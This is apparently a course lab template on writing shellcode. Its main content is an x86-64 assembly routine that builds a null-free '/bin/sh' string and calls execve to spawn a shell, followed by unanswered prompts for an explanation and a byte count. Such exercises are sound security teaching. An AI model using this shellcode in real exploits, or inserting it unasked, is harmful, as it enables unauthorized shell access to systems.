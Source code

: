 ## ShellCode Creation
A code block containing your assembly instructions for your shellcode 
```
.text
.global _start
_start:
	movabsq $0x68732f6e69622f20, %rax /* move 64 bits into rax */
	shr $8, %rax /* remove null terminators by shifting down 8 bits */
	pushq %rax /* push the above -> stack /bin/sh\0 [1st arg] */
	
	/* rdi holds 1st arg of func */
	/* pointer to path to be executed */
	movq %rsp, %rdi /* /bin/sh to rdi */
	
	/* rsi holds 2nd arg of func array of command line args */
	/* array of command line args to pass */
	xorq %rax, %rax /* set to 0 */
	pushq %rax /* push null terminator -> stack */
	pushq %rdi /* push /bin/sh -> stack */
	movq %rsp, %rsi /* point (mov) /bin/sh to rsi */
	
	/* rdx 3rd arg of env var */
	/* no environment variables to pass */
	movq %rax, %rdx /* set to 0 */
	
	addq $0x3b, %rax /* move execve into rax */
	
	syscall
	
	leave
	ret
	
```


A step-by-step explanation of your assembly code and how it sets up the system call 


Report how many bytes total are in your assembly, and include the whole thing in ascii 


